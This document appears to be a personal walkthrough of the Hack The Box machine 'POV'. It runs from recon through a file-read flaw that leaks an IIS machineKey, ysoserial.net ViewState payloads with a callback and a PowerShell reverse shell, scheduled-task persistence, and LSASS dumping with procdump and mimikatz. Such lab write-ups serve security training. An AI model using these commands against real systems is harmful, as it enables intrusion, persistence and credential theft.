


---
---

# HTB - POV

- NMAP:
```bash
nmap 10.129.24.175 -p-

sudo nmap -sUV -T4 -F --version-intensity 0 10.129.24.175

```


Add pov.htb to /etc/hosts

- Search for subdomains
```bash
gobuster dns -d pov.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt

wfuzz -u pov.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.pov.htb" --hw 834

```




- Add dev.pov.htb to /etc/hosts

- Found another open port on the dev site - which is probably internal:
<http://dev.pov.htb:8080>


- Found an email:
sfitz@pov.htb

- On the dev page there is a download CV option:


- Opening it in Burp:


- POC - change file to a known Windows file:


- We can see that it gave us the \etc\hosts file

- Since this is an IIS webserver we should be able to look at the web.config file:
```bash
/web.config

```


- We have the **machineKey** - Which includes the:
**decryptionKey**="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" **validationKey**="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"

- Here is an exploit if we already have the machineKey:
[https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-\_\_viewstate-parameter#:~:text=ysoserial.exe%20%2Dp%20ViewState%20%20%2Dg,F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2%22%20%20%2D%2Dvalidationalg%3D%22SHA1%22%20%2D%2Dvalidationkey%3D%22C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45%22](https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter#:~:text=ysoserial.exe%20%2Dp%20ViewState%20%20%2Dg,F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2%22%20%20%2D%2Dvalidationalg%3D%22SHA1%22%20%2D%2Dvalidationkey%3D%22C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45%22)

- To test this:
  - git clone <https://github.com/NHPT/ysoserial.net>
  - Open a Windows VM and transfer the files (or download directly to it)
  - Run the following (after changing the parameters) on the Windows VM:

```bash
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --path="/portfolio/default.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" -c "powershell.exe Invoke-WebRequest -Uri http://10.10.14.66:8082/test.txt"

```


- Copy the generated payload and URL encode it on Cyberchef (all special chars):


- Copy the payload and paste into **\_\_VIEWSTATE=**

- Set up a python server to test

- Send the Request


- We get a hit on our python server:


- Now change the payload to a Powershell reverse shell:


- Set up a listener

```bash
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --path="/portfolio/default.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" -c "powershell.exe powershell -e JABjAGwAaQBlA…"
```


URL Encode and paste into \_\_VIEWSTATE=


- Got user shell:


- <u>Persistence:</u>
Create msfvenom payload.

Rename it to .txt because the server doesn't allow .exe files to be uploaded it seems.

Upload msfvenom payload and start multi handler.

Change payload to .exe

Run:

```bash
schtasks /create /sc minute /mo 1 /tn "a_innocent" /tr "C:\Users\Public\program.exe"

```
Run .\program.exe to upgrade to meterpreter shell

```bash
net user

```


- In sfitz's Documents:


There is a connection.xml file


- We get credentials for a PSSession from user **alaading**. The password is encrypted through Powershell.

- This is the process of encryption:


- **<u>We need to reverse the process:</u>**
**\$encryptedpwd = \<The password we found\>**

\# Decrypt the password
**\$secureString = \$encryptedpwd \| ConvertTo-SecureString**

\# Convert the secure string to plain text
**\$originalPwd = \[System.Runtime.InteropServices.Marshal\]::PtrToStringAuto(\[System.Runtime.InteropServices.Marshal\]::SecureStringToBSTR(\$secureString))**

\# Output the original password
**Write-Host "Original Password: \$originalPwd"**

- This can be done with a one-liner:
```powershell
$originalPwd = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.InteropServices.Marshal]::SecureStringToBSTR(("<encrypted_password>" | ConvertTo-SecureString)))
  
Write-Host "Original Password: $originalPwd"

```


- Got credentials:
**alaading : \<password\>**

- Upload a new meterpreter reverse shell
- Upload RunasCs.exe
- Set up listener

- Run:
```bash
.\RunasCs.exe alaading <password>".\reverse.exe"

```


```bash
whoami /all

```


The SeDebugPrivilege is set


- Check the processes running:
```bash
ps

```



```bash
migrate <PID>

```


**<u>Another option -</u>**

That didn't provide credentials here, apart from the ones we already had, is:

- Upload procdump.exe


- Run:
```bash
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp

```


- Upload mimikatz.exe

- Run .\mimikatz.exe (in same directory as lsass.dmp)
```bash
sekurlsa::minidump lsass.dmp

sekurlsa::logonpasswords

```

